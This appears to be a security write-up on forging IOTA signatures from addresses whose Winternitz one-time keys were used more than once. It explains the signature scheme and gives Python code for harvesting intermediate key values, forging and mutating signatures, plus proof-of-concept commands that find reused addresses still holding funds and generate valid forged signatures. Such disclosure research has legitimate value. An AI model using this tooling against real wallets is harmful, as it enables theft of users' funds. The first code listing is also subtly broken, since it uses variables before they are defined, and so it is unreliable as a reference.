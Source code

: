 # IOTAs Multisig Problem
IOTA is a post quantum secure crypto currency that gained some value in the past.
It is based on the Winternitz One Time Signature Scheme.
In contrast to RSA, DSA and ECDSA it is not based on computation in a group and cannot be broken by discrete log or factorization.
Instead it is based on hash functions and secure as long as the hash function is preimage resistant.

As usual in cryptocurrencies, the public key is used for reception of funds.
If the user wants to send some funds to a different address, she has to sign a transaction (bundle in case of IOTA)  using the private key that belongs to that public key.
As the Winternitz signature scheme is a one time signature scheme there are some problems in practice.
The main implication is that if a transaction is made once, using a secret key, this key is burned and should NOT be used anymore.
Therefore the reception address has to be changed if the user issues a transaction for that public key.
Any further transaction to that public key would cause multiple signatures, what could cause security issues.
It would be plausible if a user does not always notifies everyone, if she makes a transaction and a new public key has to be used.
Therefore multiple signatures could occur for a given address.

# Winternitz
To explain how Winternitz Sigatures works, lets first see how the signature for a single byte works (lets assume we have usual 8-bit byte for simplicity).
A random variable $x_i$ is chosen and stored as the secret key which in case of IOTA is derived from the secret seed.
Let $h$ be the hash function and $pk_i$ the public key:

$$ pk_i = h^{256}(x_i) = h(h(h( ... h(x_i)))) $$

To sign a byte $b_i$ we have to publish:

$$ sig_i = h^{256-b_i}(x_i) $$

And the sigature can be verified by testing if

$$ pk_i = h^{b_i}(sig_i) $$

This scheme can adopted for multi byte signatures by choosing a different $x_i$ for every byte $b_i$.
Of course this basic method is not secure at all, as an attacker can sign all bytes $b'_i < b_i$.
The way IOTA handles this problem is to normalize the bytestring $B = (b_0, b_1, ... b_n)$ by changing the first bytes such that:

$$ \sum_i b_i = 128 $$

As IOTA uses trytes and not bytes this is slightly different in that case.
If an attacker wants to sign a different bytestring, she has to choose a different bytestring $B' \not= B$.
As the total sum is constant there will be at least two bytes such that $b'_i < b_i$ and $b'_j > b_j$.
To sign this bytestring $B'$ using a different signature, the attacker has to compute a preimage for $b'_j$ what is not possible in practice.
Even though this assumption only holds if the public key is only used once.

IOTA uses trits (-1,0,1) and trytes (group of 3 trits, 9,A-Z) to represent hash values.
Depending on the security level of the wallet a signature a signature consists of 1-3 fragments.
Each signature fragment itself consists of 27 Winternitz signatures.
Let $ pk_{i,j} $ be the $i$-th Winternitz public key of fragment $j$.
The IOTA public key (address) for a security level of 2 is computed as:

$$ addr = h(h(pk_{0,0} || pk_{1,0} || ... || pk_{26,0}) || h(pk_{0,1} || pk_{1,1} || ... || pk_{26,1})) $$


# Analyzing the Tangle
There exists a repository [alon-e/iotaWayBack](https://github.com/alon-e/iotaWayBack.git) that can be used to download and analyze the tangle.
All transactions can then be stored in a SQL database, but the whole process takes several hours to complete.
The most relevant fields are:

    -signature_message_fragment: Signature fragment of a bundle. Usually split over two entries (depending on security level).
    -address: The address that issues the transaction.
    -bundle_hash: The hash of the signed bundle.

This database can then be used to search for addresses that signed multiple bundles.

# Forging Signatures
Luckily IOTA ships with an open source python implementation.
The iota.crypto.signing.validate_signature_fragments(...) can be used to check signatures in the tangle.
The pseudo code looks as follows (taken from iota.lib.py/iota/crypto/signing.py):

```python
def get_sk_fragments(fragments, hash, public_key):
  normalized_hash = normalize(hash)

  for (i, fragment) in enumerate(fragments): # for all signature fragments
    normalized_chunk = normalized_hash[i % len(normalized_hash)]

    outer = []
    sk_fragments[i*27 + j][normalized_chunk[j]] = buffer
    for (j, hash_trytes) in enumerate(fragment.iter_chunks(Hash.LEN)): # for each tryte in fragment
      buffer = hash_trytes.as_trits()

      for i in range(13 + normalized_chunk[j]): # winternitz iteration
        buffer = h(buffer)
        sk_fragments[i*27 + j][normalized_chunk[j]-i-1] = buffer

      outer.append(buffer)
    checksum.append( h(outer))


  return  h(checksum) == public_key.as_trits()
```

Note that there is a small modification, the update of sk_fragments, which keeps track of the intermediate values of the Winternitz values.
Using the known values of two or more signatures, own signatures can be forged.
If a particular intermediate value is not known, an IndexError is thrown and the signature generation fails.

```python
def sign(forged_hash, sk_fragments, num_frags = 2):
    normalized_hash = normalize(forged_hash)

    fragments = []
    for i in range(num_frags):
      fragment = ""
      for j in range(len(normalized_hash[i])):
          x = normalized_hash[i][j]
          x = sk_fragments[str(i*27 + j)][str(x)]
          fragment += str(iota.TryteString.from_trits(x))

      fragments += [iota.TryteString(fragment)]

    return fragments
```

In the IOTA protocol the bundle hash is a hash value of a bundle, an actual money movement and can not be chosen arbitrarily.
Even though random values can be signed if only two signatures are known.
This can be achieved by slightly mutating a known signature.

```python
import random
def mutate(x, n=26):
    x = x.as_trits()
    for _ in range(n):
        i = random.randrange(len(x))
        x[i] = x[i] * random.randrange(-1,2)

    return TryteString.from_trits(x)
```

# Estimating Bit Security

# PoC
The repository  [bolek42/iotaWayBack](https://github.com/bolek42/iotaWayBack.git) implements a basic PoC for the problems above.
After using traverse.py to download the tangle parse_and_store.py can be used to export the transactions to a sqlite database.
The whole process can take several hours to complete.

```
python find_multisig.py sqlalchemy_IRI.db
```

can be used to find IOTA addresses that issued multiple signatures and still contain IOTA.
The key fragments will be written in a json file in keys/[address].json.
For each found address the balance and estimated bit security is printed.


The following call can be used to create valid signatures for a mutated bundle hash

```
python sigforge.py address bundle_hash
```

To create signatures of random variables to show the feasibility of signature forging the bundle hash can be omitted.
Note that this implementation is single threaded and not tuned for performance.

```
python sigforge.py address
```
